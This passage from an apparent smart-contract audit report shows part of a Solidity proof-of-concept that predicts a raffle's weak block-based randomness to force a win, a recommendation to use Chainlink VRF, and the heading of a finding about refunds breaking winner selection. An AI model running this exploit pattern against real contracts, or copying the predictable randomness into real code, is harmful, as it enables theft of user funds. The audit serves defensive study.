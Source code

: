 ```javascript
                uint256(
                    keccak256(
                        abi.encodePacked(
                            address(this),
                            block.timestamp,
                            block.difficulty
                        )
                    )
                ) %
                toAdd;

            if (winnerIndex == playersLength) break;
            ++toAdd;
        }
        uint256 toLoop = toAdd - playersLength;

        address[] memory playersToAdd = new address[](toLoop);
        playersToAdd[0] = address(this);

        for (uint256 i = 1; i < toLoop; ++i) {
            playersToAdd[i] = address(i + 100);
        }

        uint256 valueToSend = 1e18 * toLoop;
        raffle.enterRaffle{value: valueToSend}(playersToAdd);
        raffle.selectWinner();
    }

    receive() external payable {}

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

## Recommendations

Use Chainlink's VRF to generate a random number to select the winner. Patrick will be proud.

## <a id='H-04'></a>H-04. `PuppyRaffle::refund` replaces an index with address(0) which can cause the function `PuppyRaffle::selectWinner` to always revert
